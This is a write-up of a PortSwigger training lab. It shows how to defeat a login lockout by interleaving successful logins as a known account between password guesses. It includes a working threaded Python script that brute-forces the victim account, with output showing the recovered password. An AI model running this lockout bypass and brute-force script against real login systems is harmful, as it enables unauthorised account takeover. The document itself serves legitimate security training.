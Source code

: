 # Broken brute-force protection, IP block

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/password-based/lab-broken-bruteforce-protection-ip-block), you'll learn: Broken brute-force protection, IP block! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab is vulnerable due to a logic flaw in its password brute-force protection. To solve the lab, brute-force the victim's password, then log in and access their account page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`
-   [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

## Exploitation

**Login page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083117.png)

**Let's try to type `carlos`'s password incorrectly multiple times and see what happend:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083224.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083239.png)

When we typed a valid username and **an incorrect password, it displays `Incorrect password`.**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083330.png)

When we typed an incorrect password 4 times, it'll block our IP.

**To bypass that, I'll add a HTTP header called `X-Forwarded-For`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083432.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221083622.png)

No luck.

**How about we type incorrect password twice, then login as user `wiener`?**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221084237.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221084249.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221084258.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221084315.png)

We successfully bypassed that!

**To brute force `carlos` password, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def fetchPassword(filename):
    listPassword = list()

    with open(filename) as fd:
        for line in fd:
            listPassword.append(line.strip())

    return listPassword

def sendRequest(url, cookie, password):
    carlosLoginData = {
        'username': 'carlos',
        'password': password
    }

    loginRequestText = requests.post(url, cookies=cookie, data=carlosLoginData).text

    if 'Incorrect password' not in loginRequestText:
        print(f'[+] Found password: {password}')

def loginRequest(url, cookie):
    wienerLoginData = {
        'username': 'wiener',
        'password': 'peter'
    }

    requests.post(url, cookies=cookie, data=wienerLoginData)

def main():
    url = 'https://0a84002a04a52b41c1d2ad230038003c.web-security-academy.net/login'
    cookie = {'session': 'Cq005y0KwJZYOigpmKSQPxrTay0VWfgu'}

    passwordFileName = './auth_password.txt'
    listPassword = fetchPassword(passwordFileName)
    
    counter = 0

    for password in listPassword:
        counter += 1

        if counter == 2:
            counter = 0
            loginRequest(url, cookie)

        thread = Thread(target=sendRequest, args=(url, cookie, password))
        thread.start()
        sleep(0.2)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_password_bypass.py
[+] Found password: superman
```

- Found user `carlos` password: `superman`

**Let's login as user `carlos`!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221090827.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/Authentication/Auth-6/images/Pasted%20image%2020221221090834.png)

We're user `carlos`!

# What we've learned:

1. Broken brute-force protection, IP block
